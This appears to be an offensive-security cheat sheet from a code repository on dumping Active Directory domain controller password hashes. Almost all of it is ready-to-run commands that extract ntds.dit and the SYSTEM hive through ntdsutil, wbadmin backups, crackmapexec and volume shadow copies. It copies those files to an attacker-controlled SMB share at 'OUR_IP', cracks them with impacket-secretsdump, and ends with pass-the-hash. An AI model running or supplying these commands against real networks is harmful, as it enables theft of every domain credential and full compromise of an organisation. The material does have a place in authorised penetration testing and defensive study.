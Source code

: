 # DUMP DOMAIN CONTROLLER HASHES LOCALLY WITH NTDSUTIL

## required files: 

### 1) C:\windows\NTDS\ntds.dit

### 2) C:\windows\system32\config\SYSTEM

### 3) C:\windows\system32\config\SECURITY

## Locating the ntds custom location: reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"

#### 1) powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#### 2) Transfer them to attacking machine

#### 3) python3 Impacket-Secretsdump.py -security /path/to/SECURITY -system /path/to/SYSTEM -ntds path/to/ntds.dit local

# DUMP DOMAIN CONTROLLER HASHES WITH WBADMIN

#### 1) Create an new user that maches the "force user" parameter in the /etc/samba/smb.conf file:

#### adduser smbuser

#### smbpasswd -a smbuser

#### sudo service smbd restart 

#### 2) net use k: \\OUR_IP\SHARE /user:smbuser smbpass (Mount the share)

#### 3) echo "Y" | wbadmin start backup -backuptarget:\\OUR_IP\SHARE -include:c:\windows\ntds (Backup NTDS folder)

#### 4) sbadmin get versions (Retrieve the version of the backup)

#### 5) echo "Y" | wbadmin start recovery -version:10/01/2020-14:23 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl (Restore the NTDS file, specifying the backup version)

#### 6) reg save HKLM\SYSTEM C:\system.hive (Export the system hive)

#### 7) cp ntds.dit \\OUR_IP\SHARE\NTDS.dit

#### 8) cp system.hive \\OUR_IP\\SHARE\system.hive

#### 9) impacket-secretsdump -ntds NTDS.dit -system system.hive LOCAL

#### 10) Do a Pass-the-Hash attack with wmiexec/smbexec/psexec or evil-winrm 

#### 11) PROFIT

# CRACKMAPEXEC

#### 1) crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds

#### 2) crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi

#### 3) crackmapexec smb 10.10.0.202 -u username -p password --ntds vss

# VOLUME SHADOW COPY (VSS)

#### 1) vssadmin create shadow /for=C:

#### 2) copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy

#### 3) copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy


